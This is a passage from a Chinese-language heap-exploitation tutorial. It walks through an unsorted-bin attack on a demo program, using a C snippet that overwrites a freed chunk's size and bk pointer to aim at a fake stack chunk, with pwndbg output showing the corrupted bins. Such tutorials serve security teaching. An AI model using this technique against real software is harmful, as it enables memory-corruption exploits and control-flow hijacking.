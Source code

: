 伪造的 bk 指向自身。

```
pwndbg> p/x &stack_buffer 
$3 = 0x7fffffffdc50
pwndbg> p/x stack_buffer 
$4 = {0x0, 0x110, 0x0, 0x7fffffffdc50}
```

假设此时有一个堆溢出漏洞，可以修改 victim 的内容：

``` c++
  //------------VULNERABILITY-----------
  fprintf(stderr, "Now emulating a vulnerability that can overwrite the victim->size and victim->bk pointer\n");
  fprintf(stderr, "Size should be different from the next request size to return fake_chunk and need to pass the check 2*SIZE_SZ (> 16 on x64) && < av->system_mem\n");
  victim[-1] = 32;
  victim[1] = (intptr_t)stack_buffer; // victim->bk is pointing to stack
  //------------------------------------
```

但是在修改之前，我们要过一个 check：我们要修改的 size 要满足条件：size > 16 (x64)，size < `av->system_mem`。

因此我们修改 size 为 32，victim 的 bk 指向 stack_buffer。

```
pwndbg> p victim 
$5 = (intptr_t *) 0x602010
pwndbg> x/10xg victim - 2
0x602000:	0x0000000000000000	0x0000000000000020
0x602010:	0x00007ffff7dd1b78	0x00007fffffffdc50      <-- fd, fake bk
0x602020:	0x0000000000000000	0x0000000000000000
0x602030:	0x0000000000000000	0x0000000000000000
0x602040:	0x0000000000000000	0x0000000000000000
pwndbg> x/10xg 0x00007fffffffdc50
0x7fffffffdc50:	0x0000000000000000	0x0000000000000110      <-- fake chunk
0x7fffffffdc60:	0x0000000000000000	0x00007fffffffdc50
0x7fffffffdc70:	0x00007fffffffdd60	0xb6520ac971917b00
0x7fffffffdc80:	0x0000000000400870	0x00007ffff7a2d830
0x7fffffffdc90:	0x0000000000000001	0x00007fffffffdd68
pwndbg> bins
fastbins
0x20: 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x0
0x80: 0x0
unsortedbin
all [corrupted]
FD: 0x602000 —▸ 0x7ffff7dd1b78 (main_arena+88) ◂— 0x602000
BK: 0x602000 —▸ 0x7fffffffdc50 ◂— 0x7fffffffdc50
smallbins
empty
largebins
empty
```
